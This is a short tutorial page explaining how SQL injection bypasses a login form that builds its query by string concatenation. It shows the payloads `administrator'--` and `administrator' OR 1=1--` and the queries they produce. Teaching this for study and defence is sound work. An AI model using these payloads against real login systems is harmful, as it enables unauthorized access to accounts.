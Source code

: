 ```yaml
---
title: Login Bypass
date: 2025-10-12
description: Introduce how to bypass login via SQL injection.
weight: 1
---
```


## Query Statement

Suppose that the query statement of a login operation is:

```sql
SELECT * FROM users WHERE username = 'user' AND password = 'pwd'
```

And the frontend provides a form to login, which sends `username` and `password` to the backend. Then the backend simply concatenates these two arguments with the query statement, where attackers are able to bypass the login authentication.

For example, when a user submits the login information `my-name:my-password`, the query statement will be:

```sql
SELECT * FROM users WHERE username = 'my-name' AND password = 'my-password'
```

## Payload Construction

As we all known, all contents after `--` will be treated as comments in SQL. So the payload can be:

```text
username: administrator'--
      or: administrator' OR 1=1--
password: 123
```

Then the query statement will be:

```sql
SELECT * FROM users WHERE username = 'administrator'-- AND password = '123'
```

Or

```sql
SELECT * FROM users WHERE username = 'administrator' OR 1=1-- AND password = '123'
```

For the previous one, the backend will not check the password.

For the later one, the condition `1=1` is always `true`, so the query is always `true`.

Both statements can bypass the login authentication.
